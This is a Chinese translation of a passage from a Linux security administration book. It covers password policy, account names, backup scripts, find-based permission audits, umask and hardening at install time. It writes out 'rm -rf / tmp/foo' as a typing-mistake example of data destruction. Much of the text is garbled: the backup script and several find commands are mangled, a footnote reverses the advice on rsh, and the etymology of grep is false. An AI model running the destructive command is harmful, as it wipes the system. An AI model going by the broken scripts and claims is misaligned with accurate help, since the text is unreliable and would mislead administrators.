特别注意事项：当密码更改时，不要将新密码通过电子邮件发送给入侵者。如果账户被入侵，这将把新密码提供给入侵者。如果入侵者是通过其他手段而非旧密码进入的，你刚刚又提供了一条进入的路径。关于此有趣描述的账户，请参见第 551 页的“伯克利系统模型自白”。

无限期使用相同密码的缺点是什么？

- 破解者可能会发现某个人的密码，尤其是 `root` 的，然后安静地潜伏数月或数年，然后在最不合时宜的时候发动攻击。
- 用户倾向于在所有地方使用相同的密码。因此，如果密码在一个系统上被泄露（可能是通过嗅探或登录、`telnet` 或 `ssh` 中的木马），用户的所有系统都将面临风险。

随着许多人拥有家庭系统，以及电缆调制解调器和 DSL 变得流行，预期用户的家庭系统会被入侵。这些被入侵的系统可能包含关于办公系统的足够信息，允许破解者渗透办公系统。

在一些公司，即使有人离开公司，`root` 密码也不会更改。务必更改任何离职员工或顾问知道的密码，无论离职过程多么友好。

> 当我离开一些顾问工作时，我曾不得不恳请系统管理员更改我知道的任何密码。这不仅是为了适当的安全。此外，如果后来发生安全漏洞，这也保护了我的声誉。

### 2.4.4 账户名称

你刚刚审查了与密码相关的问题。然而，在破解者能够“破解”密码之前，他需要知道账户的名称。同时猜测账户名称和密码比猜测已知账户的密码要困难得多。这就是为什么在 Linux 和 UNIX 上，如果你输入了正确的账户名称但输入了错误的密码，错误消息与账户名称不存在时的错误消息完全相同的原因。这对 `login`、`telnetd` 和 `ftpd` 程序都是如此。因此，它们不允许破解者发现哪些账户名称是有效的。

真正谨慎的人可能希望电子邮件名称与账户名称不对应。对于某些人来说，这可能是过度的。然而，可以通过编辑 `/etc/aliases` 文件来做到这一点，将传入电子邮件的地址（如 `sales`）映射到实际的账户名称。对于传出邮件，可以使用通用映射将实际账户映射回外部可见的电子邮件地址，例如 "`sales`" 。这也可能对个别账户进行。例如，Sam Spade 可能在 `ssp@pentacorp.com` 拥有电子邮件，而在 `shoe.pentacorp.com` 上拥有一个账户。

为了增加安全性，许多站点为服务使用独立的系统。通常，电子邮件、`Netscape` 和 `Usenet` 客户端位于一组系统上，Web 服务器和相关操作位于另一组，内部会计和操作位于其他系统上。每兆字节和每台电脑的成本如此之低，这使得这种做法非常实用。（`Computer` 是一个术语，指计算机中的计算单位。我不记得最初是从哪位工程师那里听到这个术语的；我相信那是在 `Stratus Computer`。）

这在其他几章中也有涉及，包括第 78 页的“社区内部防火墙以遏制火灾”和第 109 页的“我们跌倒，分裂我们站立”。

一些安装已经将所有电子邮件地址的主机名设置为该域的名称，例如，

```
sales@pentacorp.com
```

这使得在不需要每个人都更新其电子邮件地址的情况下，轻松地在实际系统之间移动人们的账户。

# 保护系统免受用户错误的侵害


用户比系统管理员多得多，所有用户对安全的知识都较少，而且大多数人都忙于做他们的工作而无法担心安全。这是一个采取步骤保护系统和网络免受用户（实际上你是保护公司的资产和声誉）影响的良好理由。给予用户的信任级别根据情况有很大不同，而在充分保护组织系统的同时避免变得 `draconian`（残酷的/严苛的）并公平地确定该级别是一个崇高的目标，很难实现。这比为派对获得适量的食物和饮料更难。

在一个拥有大量用户并支持重要公司功能（如订单录入、会计或电子商务）的大型系统上，只有极少数人应该持有像 `root` 或 `http` 这类拥有强大权限的账户密码，或者拥有能够“搞垮”系统的访问权限。对于管理层也不应开绿灯（给予例外）。系统管理员（SysAdmins）之间以及与其他人员（如数据库管理员和网管）之间的良好沟通至关重要。（Web 服务器 `Apache` 应该使用自己的账户 `http`，而不是使用 `nobody` 账户。）

所有的安装、配置、重新配置和备份工作都应该由谨慎且知识渊博的系统管理员或其助手来完成。这些活动中任何一个环节的失误都可能给公司带来数千甚至数百万美元的损失。

如果一个个人工作站主要由一位知识渊博的人使用，甚至由其独占使用，那么放宽规则或许是合理的，但不要完全废除规则。即使是许多知识渊博的 Linux 程序员也不太重视安全，因为他们“太忙于赶产品截止日期”或者他们个人没有经历过入侵，因此认为这不过是像 2000 年文明崩溃那样被夸大其词了。

很少有人会按照每两到七天一次（这对于限制失误造成的 loss 至关重要）的频率备份他们的个人电脑，例如输入错误：

```
* .o
rm -rf / tmp/foo
```

导致的错误，或者磁盘崩溃或被盗。这是因为大多数备份方案都不便操作。以下是几种解决方案，其中一些可能适用于您的情况。

- 1. 向用户提供一个 Bourne shell 脚本，用于执行远程备份。该脚本将频繁变化的数据目录（`/home`, `/var/spool/mail`, `/etc`）作为相对路径备份到远程系统上的磁带机。它会将任何错误信息的电子邮件发送给系统管理员 `joe`。

    相反于直接写入磁带，它可以将备份存储在备份目录中的磁盘文件中，然后这个目录可以通过标准方法定期备份到磁带上。该脚本被称为 `rmtbackup`。

    ```
    #!/bin/sh
    # rmtbackup
    # Back up /home,/var/spool/mail, and /etc
    # as relative paths onto remote system "central"
    # and sends status e-mail to joe@pentacorp.com.
    #
    # The v flag to tar may be removed to not list
    # file names in the e-mail. The O flag causes
    # the archive to be written to standard out.
    #
    # Protecting the System from User Mistakes

    # The e-mail will include any error messages.
    cd /
    tar -czvo --atime-preserve --totals home=/spool/mail etc /
    ssh -l backup control dd bs=100k obs=100k of=/tmp/rmt0 /
    Mail -s "Backup from %hostname" joe@pentacorp.com
    ```

    每次使用此脚本时，可能需要手动输入 `ssh` 密码。另一种方法是使用非 `root` 账户的 SSH 密码短语，该账户专门用于这些备份。此用户应该对磁带机拥有写入访问权限，但不应拥有读取权限。如果此磁盘上的密码被破解者查看，该技术可以限制可能造成的损害。虽然该脚本可以防范网络嗅探，但磁带本身未加密。通过在 `ssh` 管道中插入以下内容来实现加密：

    `gpg -er recipient |`

    一种可能性是使用 `mknod` 程序创建具有与 `/dev/rmt0` 相同主要和次要设备编号的其他文件。这些其他文件可以分别由不同的组拥有。其中一个组可以专门用于此目的，以这种模式列出的磁带权限可以是 `020`。允许写入磁带的账户可以列在 `/etc/group` 中该组的条目里。所有这些文件的所有者都应为 `root`，以防止任何人更改其权限。

    这种远程磁带技术的一个缺点是，如果需要，它无法处理多卷磁带。必须用对此脚本 `dd_multi` 的调用替换多个 `dd` 命令。外层循环使来自标准输入的 1GB 数据写入 `/dev/rmt0` 磁带设备。通过使用 `obs` 变量设置输出块大小，您强制每个块为 100 KB。如果您使用单个 `bs` 变量，块大小将是标准输入的原始大小。由于标准输入很可能是管道或 TCP 网络连接，这将基本上是随机的。


当 `dd` 完成写入 1 GB 时，它会向系统管理员发送电子邮件，并执行从 `loop2` 开始的内层循环，等待系统管理员收到电子邮件并采取行动。如果写满了 1 GB，则还有更多数据需要写入，因此系统管理员应更换磁带并执行命令：

`touch /home/joe/dd_m`

相反，如果写入的记录少于 10,000 条，则所有数据均已写入完毕。系统管理员应取出磁带并执行命令：

`echo Done > /home/joe/dd_m`

显然，块大小、每卷磁带要写入的数据量、电子邮件账户、标志路径和磁带设备都应根据情况进行定制。

```
#!/bin/csh -f
# dd_multi
# Copyright 2001 Bob Toxen. All rights reserved.
# Email may be sent to book@verysecurelinux.com
# May be distributed under the GNU public license
#
set email=joe@pentacorp.com
set flag=/home/joe/dd_m
set blksiz=100k
set blocks=10000
# Reads stdin, copies 1 GB to tape, sends email to
# to SysAdmin, waits for him to do
# "touch $flag" for next tape
# "echo done>$flag" if count was less than
# 10000, indicating last tape.
loop:
 dd bs=$blksiz obs=$blksiz count=$blocks of=/dev/rmt0 \
 |& Mail -s "change tape, touch $flag" \
  $email
loop2:
 if ( -f $flag ) then
  if ( -s $flag ) then
    /bin/rm $flag
    echo backup done | Mail -s "dd done" \
    $email
    exit 0
  endif
  /bin/rm $flag
  goto loop
 endif
  sleep 30
  goto loop2
```

- 2. 使用中心源代码库（如 `CVS`），并要求管理层强制程序源代码和文档使用它。在适用时，使用中央数据库和 Web 服务器，您将定期备份这些中央系统。

- 3. 使用中央系统处理最重要的工作，并使每个用户的个人系统更多地作为 X 终端使用，不存储重要数据（电子邮件除外）。可以将中央系统的 `$DISPLAY` 变量指向用户系统（当然要用 `sh` 包裹）或通过 `ssh` 登录到中央系统来实现这一点。

- 4. 为用户系统配备磁带机，这样您只需担心监控由 `crontab` 触发的备份和磁带更换即可。

- 5. 备份磁带上的数据应尽可能进行强加密。如果您的磁带备份软件不提供此功能，可以纳入 `PGP` 或类似选项到备份程序中。

将备份磁带存储在异地安全设施中至关重要。在许多公司，一个心怀不满的工程师可能在周六晚上闯入，摧毁公司所有的数据和备份磁带，并移除记录其按键码输入的设备，从而抹去所有“谁干的”证据。遵循没有一个人可以摧毁公司大量数据这一规则。根据情况，这条规则可以放宽，以信任负责备份的单个系统管理员。


虽然互联网上有许多精彩的软件，但也潜伏着一些特洛伊木马，旨在让不明智的人中招，还有存在 bug 的代码。请考虑获取软件的来源（URL）。如果同一软件可以从不同的可靠位置获取，请下载多个副本并比较结果，或计算 `MD5` 校验和并与在多个受信任位置发布的校验和进行比较。许多站点和供应商现在对其软件进行签名，以验证您下载内容的签名。Red Hat 的 `RPM` 包管理器支持 `PGP` 签名的软件包。如果某个软件包通过签名检查，只要软件包创建者的站点未被入侵，就可以信任它。

在尝试构建下载的软件之前，最好让它“闲置”几天或一周，之后再次检查站点，确保 `MD5` 校验和没有改变且没有入侵通知，以防有人闯入该站点。如果他们不提供 `MD5` 校验和，请在一周后下载代码并进行比较。

从作者的站点下载时，需格外小心，因为许多破解者会试图入侵该站点，其中一人可能会成功植入特洛伊木马。本网站上的所有软件都将由作者的 `GPG` 密钥签名。作者的 `GPG` 公钥位于 `CD-ROM` 上的文件中：

```
pubkey.txt
```

## 2.5.2 用户教育

许多非技术用户几乎不懂计算机，当然也几乎不了解安全。大多数人只接触过 `Mac` 或 `Windows`，这些系统向所有用户（除了最好奇的那些人）隐藏了许多细节。

花些时间解释一些基本概念，例如：

- `Linux` 被设计为同时处理多个用户。

- 每个用户由其账户名标识。

- 每个账户都有一个唯一的编号，类似于客户编号，称为用户 `ID` 或 `UID`。

- 一些账户被分组到命名的组中，例如“`users`”组。

- 每个文件由一个账户拥有，并拥有权限，这些权限决定了哪些账户可以读取该文件、写入该文件，或者，如果它是一个程序，运行它。

- 一组文件被收集到一个目录中（用于文件目录）。目录就像可以存放其他文档的纸质文件夹。在 `Linux` 上，目录就像带有名称、拥有它的账户以及权限的普通文件，这些权限决定了哪些账户可以对其进行某种类型的访问。

- 确保每个文件（包括目录）上的权限正确至关重要，以防止错误的人对文件做不恰当的事情。

- 有用于列出文件名称、所有权、权限和大小、更改文件权限、移动它们、编辑它们以及在不同系统之间复制它们的命令。您可能想要讨论 `ls`、`chown`、`mv`、`rm`、`vi` 或 `emacs`、`ftp` 或 `ssh`。这取决于每个用户将做什么。在某些情况下，用户可能只是登录并调用一个应用程序，整天“留在”其中。在这种情况下，除非这是一个不能获得正常登录 `shell` 的受限账户，否则用户会想了解电子邮件和 `Netscape`。

- 在电子邮件地址或新闻组帖子中，发件人的姓名和电子邮件地址很容易被伪造（欺骗），因此对于重要邮件不应信任。重要邮件需要通过其他可信方法（如 `PGP` 签名或电话、传真或纸质邮件）联系正确的号码或地址进行验证。

> 受限账户是指人不会登录并使用正常 `shell` 的账户。在许多情况下，系统会配置为直接“进入”应用程序，要么将应用程序列为登录 `shell`，要么使用 `exec` 命令，在每个用户的 `.profile` 或 `.bashrc` 文件中。其他受限账户可能只允许通过 `popd`、`pop3s` 和 `Samba` 进行访问。

## 2.6 宽恕胜过许可

**危险等级 💀 💀 💀 💀**

当发现这种策略与管理层配合良好时，它也适用于系统管理文件权限。认识到任何文件（包括目录或设备文件），如果有权限可供潜在的破解者使用，都可能削弱系统的安全性。`Linux` 基于 `UNIX`，而 `UNIX` 是由贝尔实验室的研究人员在大多数系统连接到互联网之前开发的。因此，许多系统文件对所有人都可读，并且可写。

当我进入别人的系统时，有时我会惊讶于我注意到了多少个严重的文件权限问题。大多数用户从未被告知权限，而且他们的系统管理员从未在系统或个人的启动脚本中放置过

```
umask 027
```

或者

```
umask 022
```

为什么系统管理员应该关心全局可读或全局可写的文件？毕竟，用户是受信任的员工，系统是安全的。即使在这种情况下也存在危险。也许某个用户有一个弱密码被破解了。也许破解者发现了 `CGI` 脚本中的一个 `bug`，这允许他获得运行 `Apache` 的 `UID` 的完全访问权限。因此，限制任何违规造成的损害是重要的。我们在第 20 页的“转向安全环”中讨论了这一点。

> 在系统连接到互联网之前，大多数人不太在意文件权限。如果员工做了他们不应该做的事，他们只是被解雇了。

1. 黑客是一个好且富有创新精神的程序员。如果一个道德黑客/破解者在未授权的情况下进入他人的系统并造成系统管理员花费大量时间去追踪他们，我认为这与破解者没有区别。一个人有权不被帮助。

   另一方面，老虎在管理层的某个级别授权下尝试查找漏洞。此授权应始终书面化，以避免日后误解，甚至可能在“乡村旅馆”过夜。

2. 虽然绝大多数 `Linux` 系统使用 `Apache` 作为 `httpd` web 服务器，但关于 `Apache` 的大多数讨论也适用于其他服务器。`Apache` 和 `httpd` 将互换使用。在许多发行版中，`Apache` 的默认用户和组将是 `nobody`。建议 `UID` 应与 `NFS` 的 `nobody` 及类似无关应用程序不同。


一个常见且经常发生的问题是关于谁负责在启动脚本中设置掩码或教育用户没有定义策略——是系统管理员，还是使用自己的其他某人。`umask` 可以放在 `/etc` 中各种 shell 的全局启动脚本中。这包括 `csh` 和 `tcsh` 的 `csh.login` 和 `csh.csh`，以及 `sh` 和 `bash` 的 `profile`。建议如果这是贵公司的一个问题，您向管理层提出建议，让他们批准一份草案策略。您需要决定什么适合贵公司的文化。

### 2.6.1 目录和粘滞位

很少有文件应该有全局访问权限。那些应该有的包括您的 `tmp` 目录，模式为 `1777`（通常是 `/tmp` 或 `/var/tmp` 或 `/usr/tmp`）。正如您回忆的那样，如果有人可以访问一个目录，Linux 将允许该人在该目录中创建新文件、删除现有文件，或者将文件移入、移出或在该目录内移动。

问题是，这允许恶意用户删除 `/tmp` 中其他人的临时文件。这不像您想象的那样严重，因为像 `vi` 和 `Mail` 这样的许多程序在 `/tmp` 中创建临时文件时模式为 `600` (`rw-------`)，其他用户无法读取或写入它们，并保留一个引用该文件的打开文件描述符。

Linux 和 UNIX 有一个不寻常的功能，即内核不仅跟踪指向给定 inode 编号的目录条目的链接计数，还跟踪运行中的程序中有多少个打开的文件描述符引用它。

只要仍有目录链接指向 inode，并且具有该文件（inode）打开的运行程序未关闭或退出，内核就不会释放 inode 或文件。因此，如果恶意用户删除了您的程序持有的临时文件，您不会丢失数据或受到不便。并非所有程序在处理过程中都保留临时文件。（程序保留临时文件的技术在 NFS 上会失败，因为 NFS 守护程序会关闭一段时间未访问的文件，因为没有明确的 NFS 命令。）

因此，用户在临时目录（如 `/tmp`）中的临时文件面临被恶意用户删除的风险。但是，如果用户使用的程序创建模式为 `600`，临时文件会受到保护，不会被读取或修改。

即使程序请求文件权限 `666`（这是一个真正的理想状态），用户或系统管理员可以通过指定 `027` 或 `022` 的 `umask` 来获得此权限。很少有程序写得那么糟糕，以至于它们会覆盖 `umask` 以强制更多权限。

解决这个困境的方法是使用粘滞位，八进制 `1000`。老手们会回忆起，最初，在古老的系统中，这个粘滞位的唯一目的是在每个用户运行程序后，将程序的副本保留在交换空间中。因此，当下一个人调用程序时，它不需要再次从文件系统读取。这导致启动程序所需的系统资源更少，调用者的等待时间更短。通常，像编辑器这样经常使用的程序会设置其粘滞位。

在 Linux（如今大多数 Unix 系统）中，如果目录具有粘滞位，内核将不允许某人删除或重命名她并不拥有但目录写权限允许的其他人的文件。

重点是，不同用户各自需要能够创建文件但不应删除彼此文件的目录，应该设置粘滞位。这些目录之一，比如说 `/tmp`，其权限可能通过以下方式正确设置

```
chmod 1777 /tmp
```

可以通过增强内核来扩展这个概念，使得设置不同的 [此处原文缺失，推测为“权限”] 可以防止除目录所有者外的任何人创建符号链接。这将阻止大多数“符号链接攻击”。

### 2.6.2 查找权限问题

大多数 Linux 发行版遵循一种自豪但不恰当的理念，即默认具有比应有的更宽松的文件权限集。注意，`/dev` 中的一些字符设备模式为 `666`，但对于某些设备这是正确的。`/dev/null` 文件允许写入任何数据，模式 `666` 对它是安全的。建议您遍历您的系统，找到不需要的权限，然后关闭这些不需要的权限。后来，在第 382 页的“查找可疑文件”中，讨论了定期搜索破解者留下的文件。

以下命令将为 `bash`（Bourne）shell 用户发送一封电子邮件消息，列出所有全局可写的文件：

```
find / -fstype proc -perm -2 ! -type l -ls 2>&1 | \
Mail -s 'world writable' your_address
```

Csh 用户应该使用以下内容代替：

```
find / -fstype proc -perm -2 ! -type l -ls \
|& Mail -s 'world writable' your_address
```

`find` 命令搜索列出的目录树（在本例中为 `/`），查找符合您规范的文件。除非使用括号或 `-o` 运算符（意味着 OR），否则所有表达式都被 AND 在一起。

在

```
! -fstype proc
```

## 2.6 宽恕优于许可

在 `find` 命令的上下文中，`!` 符号表示 NOT（非/取反），因此该子句仅当紧随 `!` 之后的部分为假时，该子句才为真。`-fstype proc` 条件仅对于位于 proc 类型文件系统上的文件才为真。换言之，这会忽略 `/proc` 上的伪文件。请记住，`/proc` 文件系统并不存在于磁盘上。相反，它是内核动态生成的，用于获取和设置特定的内核参数。

`-perm` 运算符是 permissions（权限）的缩写，允许根据文件的权限进行选择。如果其参数以 `-` 开头，那么当所有指定的权限位都符合时，对于给定文件该条件为真。因此，以下命令：

```
-perm -2
```

对于每个所有用户可写的文件都为真。这允许你检测这种潜在的安全问题。如果 `-perm` 的参数以 `+` 开头，那么只要任意一个位为真（而不是所有位都为真），该条件即为真。如果没有前导的 `-` 或 `+`，则当文件权限与参数完全匹配时，`-perm` 为真。

`-ls` 选项会对每个匹配的文件执行等同于 `ls -l` 的操作，这是一个较新的特性。`-ls` 选项比 `-print` 提供更多信息。

后面的一些示例使用 `-mount` 来遍历位于命令行中起始目录所在文件系统之外的其他文件系统上的子目录。

### 发现的问题

以下是我发现的一些问题：

- 除了维护我的常规账户外，我还维护一个用于实验的备用账户，以确保安全。这个备用账户的主目录权限为 `777`（所有用户可写）。

- 在我的磁盘升级之前，`/home` 下没有足够的空间来容纳内核源代码或 Doemu，因此我将它们移动到了其他文件系统，并留下了指向其实际位置的符号链接。不幸的是，新目录的权限是 `777`，这冒着任何获取了即使是访客账户的用户修改内核或 Dosemu（以 root 身份运行）的风险，并等待我重新编译内核或调用 Dosemu 来接管我的机器。

- 这是如何发生的？许多包文件是所有用户可写的。此外，在我的 root 账户中，我将 `umask` 设置为 `0`，以便在复制系统文件时，不会意外去除某些文件本应具备的权限。

- 由于主目录不允许其他人写入或读取，具有这些权限的子目录并不构成风险。当目录被移出主目录的保护范围时，这种漏洞就被创建了出来。

- `/dev/sda*` 的模式为 `666`。如果我有五个 SCSI 磁盘，任何人都会对第五个磁盘拥有完全访问权限。我完全不知道这是怎么发生的。

### 处理结果

该命令随后将标准输出和标准错误都管道传输到 `mail` 命令，以便将结果邮件发送给系统管理员账户。由于 `find` 在整个文件系统上运行需要数分钟，通常建议将结果邮件发给自己，同时在 `find` 运行时做其他事情。

当我执行这种净化仪式时，我通常会将输出重定向到一个名为 `foo` 的文件，或者将输出管道到 `tee` 并指定 `tee` 的输出文件。所有知道这个 `find` 脚本的人都对结果感到震惊。尽管我管理得很严格，但我还是惊讶于在我的笔记本电脑上发现了这么多问题。这尤其令人惊讶，因为上面没有安装很多软件包，因为它原本只有一个 300 MB 的磁盘。

在 `find` 将可疑文件名放入文件后，我将该文件编辑为仅包含确实存在问题的文件，并在每行前面加上以下内容（`w` 后面有一个空格）：

```
chmod o-w
```

然后我执行：

```
sh foo
rm foo
```

或者：

```
csh foo
rm foo
```

这将移除文件的其他用户写权限。

作为替代方案，以下两个命令中的任何一个都会找到所有可被所有用户写的文件（除了带有粘滞位的目录和字符设备），并针对每一个询问你是否要关闭所有用户可写位（`002`）。

注意，你不会检查 `/proc` 文件系统。

注意，`-ok` 动作类似于 `-exec`：它首先提示你输入命令的名称（`-ok` 的第一个参数）和被处理文件的名称，并等待你输入一行。如果该行以 `y` 或 `r` 开头，则执行该命令；否则不执行。重读 `find(1)` 手册页可能会有所帮助。第一种假设 `/home` 是一个独立的文件系统，并且不会检查 `/home` 以外的文件系统。第二种形式对于通用用途更受青睐。


```
find / -home -mount -perm -002 \( -type f \
-o -type d -o -type p -o -type b \ \
\ ! -type d -o ! -perm -1000 \ \
-ls -ok chmod o-w '{}' \;
```

```
find / ! -fstype proc -perm -002 \( -type f \
-o -type d -o -type p -o -type b \ \
\ ! -type d -o ! -perm -1000 \ \
-ls -ok chmod o-w '{}' \;
```

### 周期性检查和技巧

我建议定期重复本章中讨论的其中一个 `find` 操作，可能通过 `cron` 每月或每周执行一次。

**提示**

你可能想要使用除 `root` 以外的账户来调用 `find` 命令。这样，如果某个目录的模式是 `700`，`find` 将不会进入其中。因此，你不会因为那些目录模式下可能具有所有用户写权限但由于该目录的 `700` 权限而其他人无法访问其下文件的目录而被困扰。

你可能想要将标准错误重定向到 `/dev/null`，这样你就不会因为你没有访问权限的目录的权限被拒绝警告而被困扰，因为那些目录显然是受保护的。

请注意，这个技巧可以检测到一个微妙且罕见的问题：一个模式为 `711` 的目录，允许某人如果知道名称，就可以访问文件（和子目录），但 `ls` 或 `find` 都无法获取该目录下文件的列表。如果有人使用这种技术，她很可能知道自己在做什么。如果你愿意，可以通过依次调用以下每个命令来找到此类目录以便更仔细地检查。

```
find / ! -fstype proc -perm -001 -perm -004 -type d -ls
find / ! -fstype proc -perm -010 -001 -type d -ls
```

决定哪些文件必须保持所有用户可读比所有用户可写的问题更复杂，因为许多文件应该是所有用户可读的，例如二进制目录中的 shell 脚本、手册页、库、`/etc/passwd` 和 `/etc/group`、`/etc/hosts` 以及 `/etc/resolv.conf`。当然，在安全的系统上，用户的文件通常不应该对所有用户可读，甚至可能不应该对组可读。这是你的文件系统有用的地方。

以下命令将找到 `/home` 和 `/usr/oracle` 下所有对所有用户可读的文件，后者包含数据库相关文件。此命令不检查保存 Oracle 相关程序的 `/usr/oracle/bin`。它利用 `-path` 选项匹配 `/usr/oracle/bin`，并使用 `-prune` 选项跳过它。它同样忽略 `/home/ftp`。如果可以的话，它不将标准错误管道传输。

```
find /home /usr/oracle -path /usr/oracle/bin -o \
-path /home/ftp \
-prune -perm 4 -ls \
2>&1 | Mail -s 'world readable' your_address
```

你还想要检查 set-UID 和 set-GID 程序，并评估这些权限是否合适。以下两个命令可以做到这一点。虽然它们可以合并为一个，但由于 set-GID 程序比 set-UID 程序更少见，最好将它们分开。

```
find / ! -fstype proc -perm -4000 -ls 2>&1 | \
  Mail -s 'set-UID' your_address
find / ! -fstype proc -perm -2000 -ls 2>&1 | \
  Mail -s 'set-GID' your_address
```

Csh 用户应该使用以下替代方案：

```
find / ! -fstype proc -perm -4000 -ls & | \
  Mail -s 'set-UID' your_address
find / ! -fstype proc -perm -2000 -ls & | \
  Mail -s 'set-GID' your_address
```

可以使用 `find` 命令找到许多其他类型的可疑文件。一种方法是找到 UID 或 GID 不在 `/etc/passwd` 或 `/etc/group` 中的数字的文件。这些可能是破解者创建的文件，或者是早已移除并遗忘的用户所拥有的文件。以下命令将列出这些：

```
find / ! -fstype proc \( -nouser -o -nogroup \) -ls
```

以下命令将找到那些以 "." 开头从而隐藏在普通视图之外的文件。预计你会看到 `.profile` 和类似的，但破解者会在其登录目录中创建具有这些名称之一的文件。

```
find / ! -fstype proc \( -name '.*' ! -name '..' \) -ls
```

下一个命令将找到所有由指定用户拥有的文件。应在移除账户后使用。当我这样做时，我会想起那些仍有邮箱、滞留在打印队列中的文件等的用户。

```
find / ! -fstype proc -user dbcooper -ls
```

以下命令将找到每个用户目录中不属于该用户所有的文件，这可能是有人搞小动作的结果。如果 `ftp` 位于 `/home` 下，请预期会出现由 `root` 拥有的文件。用户协作可能导致一个用户的目录中包含由另一个用户拥有的文件，但在许多系统中这种情况很罕见。可以进行类似的测试以检查组所有权。

```
csh
cd /home
foreach i ( * )
  echo Testing $i
  find $i ! -user $i -ls
end
exit
```

`find` 命令是 UNIX 和 Linux 中最强大和新颖的功能之一。通常，它的使用可以解决其他没有简单解决方案的困难问题。

## 2.6.3 在启动脚本中使用 umask

> 危险等级 💀💀💀💀

与其频繁督促用户和你使用 `ls` 和 `chmod` 命令，不如直接在 `/etc/profile`、`/etc/csh.login`、`/etc/bashrc`、`/etc/zshenv`、`/etc/zshrc`（以及可能的 `/etc/csh.bashrc`，用于 `rsh`¹⁷ 等）中放入适当的 `umask` 调用。可以利用 `grep`¹⁸ 检查用户账户，以发现那些覆盖了默认 umask（通常设为 `0`）的用户，因为他们不懂 Linux 安全或不愿麻烦。

以下命令使用了花括号扩展，该功能对 csh 用户和（非常流行的）bash shell 用户都可用。

```bash
grep umask ~home/*{.profile,.bash_profile,.bashrc}
grep umask ~home/*{.cshrc,.login,.tcshrc}
```

## 2.7 系统初始设置期间的危险及对策

> 危险等级 💀

许多 Linux 发行版存在临时的安全漏洞。此外，在完成发行版的安装和初始配置后，你希望对系统进行进一步的“加固”。为了在初始配置期间防止被入侵，在系统配置完成之前，你不应该连接到不受保护的网络。这意味着在首次开机前，你不应该安装系统的以太网线缆、调制解调器线缆、ISDN 连接、DSL 或有线路由器。对于 DSL 和有线路由器，这一点绝对至关重要，因为你的盒子可能会与你的 100 位邻居中的某位网络相连。如果其中任何人是黑客（或被入侵的系统），他们可能会监听来自你新盒子的网络数据包，以触发自动入侵软件。

¹⁷ 所有安全专家都建议，在任何不在安全网络上的系统中允许使用 `rsh`，因为 `rsh`（及相关命令）被认为是不安全的。

¹⁸ `grep` 的名称是“全局正则表达式解析器”（Global Regular Expression Parser）的缩写。正则表达式是一种语言术语，用于将此类型的表达式与其他类型（如上下文敏感表达式）区分开来。例如，在 `tcsh` 的文件名补全中，需要输入多少字符才能匹配取决于该目录下有多少个文件匹配该表达式的上下文。


通过不连接到不受信任的网络，你随后就可以通过常规的检查和确保所有账户都有难以猜测的密码、没有账户缺少密码、文件具有正确的权限、已安装安全补丁、未启用不必要的服务等，对系统进行“加固”以抵御入侵。

此时，一些系统管理员可能会运行 Bastille Linux 加固脚本，该脚本目前适用于 Red Hat 和 Mandrake。它不再要求新安装的系统。可以从以下地址下载：

http://www.bastille-linux.org/

一些系统管理员可能会运行针对 SuSE（6.1 及更高版本）的加固脚本，该脚本可在 CD-ROM 上找到，也可从以下地址获取：

www.suse.de/~marc/harden_suse-3.5.tar.gz


然后，你可以设置你的“安全环”，使用防火墙规则、自适应防火墙、TCP Wrappers、“Wrappers”或 Tripwire、日志文件扫描器。参见第 109 页的“TCP Wrappers”、第 386 页的“Tripwire”以及第 346 页的“使用 Logcheck 检查你从不查看的日志文件”。只有在那时，你才会运行所需且理解的服务。

这是一个测试配置的好时机，最好在私有的受信任网络上，以正确提供服务并抵御不当的入侵。做一个或多个完整备份并将其中一个发送到安全的异地存储是个好主意。除了将解释的其他备份方案外，使用 GNU tar 或等效方案的备份方案可能更受青睐。

这些备份不仅是为了让你在被入侵或磁盘故障后从头开始，还允许将来对当前磁盘内容和受信任的备份磁带进行逐字节比较。这使得可以自动检测到因黑客篡改而产生的差异。GNU tar 的 `--compare` 功能（也称为 `--diff` 或 `-d`）在这里非常有用，此外还有其他用于查找篡改的技术，在“查找被篡改的文件”（第 491 页）中有讨论。在所有这些步骤之后，将新系统连接到网络是安全的。

请记住，某些发行版的某些版本实际上在为主用户设置密码之前就启用了网络服务。我认为，特别是旧版本的 Slackware 就有此过错。Mike Warfield 撰写了一份关于此的广泛传播的安全公告。

总结来说，在完成所有安装、配置、加固程序并备份系统之前，不要将你的系统连接到任何网络，包括任何类型的调制解调器。

黑客可能会在系统管理员有机会正确配置系统以使其安全之前接管这些系统之一。尽管可能只有几分钟甚至几秒钟的窗口期，黑客只需要在网络上留下一个自动嗅探器，以识别来自任何从未见过的 MAC 地址（也称为以太网地址，即你的地址）的数据包。这个自动工具随后会开始尝试利用漏洞。

接管你的系统可能只需不到一秒。因为这将发生在你设置 Tripwire 之前，所以你既没有用于比较的 Tripwire 基线，也没有未受破坏的备份磁带用于恢复。如果黑客非常隐秘，他可能会在里面停留数月。

### 2.7.1 升级 Red Hat 7.3

Red Hat 7.3 版本比以前的版本更进一步，试图减少让 Linux 运行所需的“极客知识”，就像其他主要的 Linux 厂商所做的那样。我致敬这一努力，因为它帮助了我的技术朋友转向 Linux。然而，一些方面可以改进。对于任何初始系统安装和配置，我建议断开系统与所有网络的连接，或者确保入侵者无法访问该系统。如果系统是一个配置良好的防火墙，且没有易受病毒感染的系统，这就应该足够了。

首先，客户端提供四种安装类型的选择：工作站、服务器、笔记本电脑或自定义。对于固定在桌边的休闲使用，选择是在工作站安装和服务器安装之间。通过工作站安装，你会得到 X 窗口系统，但没有 SSH 守护进程。这阻止了从家或世界另一端通过 SSH 登录工作站的普遍做法。

哈哈！我只要告诉它们我想要服务器安装，以获得 SSH 守护进程和其他我想要“玩”的服务器，可能用于“协作”。优秀的文档告诉我，使用服务器安装，我不会得到 X。虽然我建议在高度安全的服务器上安装 SSH（因为它有 bug 并以 set-ID 运行），但 Red Hat 没有很好地考虑到在自定义系统中同时拥有 SSH 守护进程和 X 的选择。安装过程真的应该询问我是否想在服务器安装中要有 X，以及是否想在工作站设置中要有 SSH 守护进程，我认为。

如果有任何从互联网到系统的路径的可能——甚至没有路径——也要确保所有账户都有强密码。要在你的工作站上安装 SSH 守护进程 `sshd`，插入第二个安装 CD-ROM 并以 root 身份发出以下命令：

```bash
mount -r /dev/cdrom /mnt/cdrom
rpm -vhu /mnt/cdrom/RedHat/RPMS/openssh-server-3.1p1-3.i386.rpm
rpm -vhu /mnt/cdrom/RedHat/RPMS/openssh-askpass-3.1p1-3.i386.rpm
umount /dev/cdrom
chkconfig --level 234 sshd on
```

```bash
chkconfig --add sshd
service sshd start
```

